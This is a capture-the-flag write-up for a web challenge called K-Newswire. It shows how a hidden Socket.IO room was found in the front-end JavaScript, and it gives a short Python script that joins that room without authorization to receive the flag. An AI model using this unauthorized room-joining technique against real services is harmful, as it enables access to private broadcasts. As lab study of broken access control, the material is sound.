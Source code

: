 # Writeup 1
https://github.com/S450R1/kaspersky-ctf-writeups/tree/main/web/k-newswire

# Writeup 2
Writeup: K-Newswire (lil bit AI help for this writeup )

 Challenge Overview

We were given a service running at:


http://k-newswire.task.sasc.tf:8000/


At first glance, it looks like a news application with a front-end served over HTTP and some kind of real-time updates happening behind the scenes. The task was to retrieve the hidden flag.

---
 
Recon

Inspecting the static assets, I found an interesting bundled JavaScript file:


http://k-newswire.task.sasc.tf:8000/assets/index-CrDw9_mc.js


Looking inside, there was a clear reference to a WebSocket client:

ws://k-newswire.task.sasc.tf:8000/socket.io/?EIO=4&transport=websocket


Even more interestingly, the JS defined some rooms used by the app:

`
const kh = Object.freeze({
  public: "public",
  secret_announcements: "secret_announcements"
});
`


So the app connects users to the public room normally, but there exists a hidden room called secret_announcements.

---

Exploitation

To interact with the socket, I wrote a quick Python script using python-socketio:

`
import socketio

sio = socketio.Client()

@sio.event
def connect():
    print(":white_check_mark: Connected!")

@sio.on("*")  # catch-all handler
def catch_all(event, data):
    print(":envelope_with_arrow:", event, data)

sio.connect("ws://k-newswire.task.sasc.tf:8000", transports=["websocket"])

# normal users get only this:
sio.emit("join", {"room": "public"})

# but let's try the hidden room:
sio.emit("join", {"room": "secret_announcements"})

sio.wait()
`



Running this script, the server happily let me into the secret_announcements room and pushed a private broadcast and gave us the flag
